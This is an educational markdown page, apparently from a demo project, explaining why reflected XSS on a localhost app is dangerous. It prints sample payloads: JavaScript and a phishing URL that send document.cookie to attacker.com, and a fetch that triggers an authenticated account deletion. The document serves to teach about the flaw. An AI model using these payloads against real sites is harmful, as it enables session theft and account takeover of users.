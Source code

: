 # Reflected XSS Vulnerabilities: Why They Are Dangerous

Reflected XSS vulnerabilities, like the one demonstrated, are dangerous for several reasons, despite appearing harmless at first glance. Here's why:

## 1. Immediate User Impact
When a script like `<script>alert('XSS')</script>` is reflected and executed, it shows that arbitrary JavaScript can run in the victim's browser. While the `alert()` function is harmless, an attacker can replace it with malicious code that performs harmful actions, such as:

### Cookie Theft
Attackers can use JavaScript to read the session cookies of the current user:

```javascript
const stolenCookies = document.cookie;
fetch('https://attacker.com/steal', { method: 'POST', body: stolenCookies });
```

The browser's **Same-Origin Policy (SOP)** protects cookies for other domains, but it does not protect cookies for the vulnerable website (e.g., `localhost:3000`).  
If session cookies are stolen, attackers can impersonate the user.

---

## 2. Data Exfiltration
Attackers can craft a malicious URL and trick victims into visiting it. For example:

A phishing email might include:

```php
Click here for your gift card: http://localhost:3000/search?q=<script>fetch('https://attacker.com/steal?data='+document.cookie)</script>
```

When the victim clicks, their cookies, credentials, or sensitive data are sent to the attacker's server.

---

## 3. Account Takeover
By injecting scripts, attackers can:

- Modify the page content dynamically.
- Insert malicious forms to capture sensitive information, such as passwords or credit card numbers.

---

## 4. CSRF and Persistent Exploits
XSS can bypass **Cross-Site Request Forgery (CSRF)** protections by executing malicious requests directly from the victim's browser:

```javascript
fetch('https://example.com/api/delete-account', { 
    method: 'POST', 
    credentials: 'include' 
});
```

Here, `credentials: 'include'` ensures the victim's cookies are sent, allowing attackers to perform authenticated actions.

---

## 5. Propagation and Persistent Attacks
Attackers might embed malicious code in URLs shared across platforms. If a victim clicks such a link, the payload executes on their browser. When combined with other vulnerabilities, such as persistent XSS, the malicious script might save itself in the application, spreading further.

---

## Why SOP Does Not Fully Protect
The **Same-Origin Policy (SOP)** restricts scripts from accessing data from other origins (e.g., cookies, storage). However:

- SOP does not prevent malicious scripts from accessing data belonging to the same origin as the vulnerable site.  
  For example, a script injected into `localhost:3000` can read cookies, DOM content, or session data from `localhost:3000`.

- XSS abuses user trust in a website.  
  The malicious script runs under the trusted domain's context, bypassing user expectations of safety.

---

## Real-World Impacts
Reflected XSS is a key ingredient in many large-scale attacks:

- **Session Hijacking:** Stolen cookies allow attackers to impersonate users.
- **Credential Theft:** Injected forms or scripts capture usernames and passwords.
- **Phishing:** Victims are tricked into providing sensitive information.

---

## Conclusion
By demonstrating a reflected XSS vulnerability, it's clear how small errors in input handling can escalate into severe consequences for both users and the application.

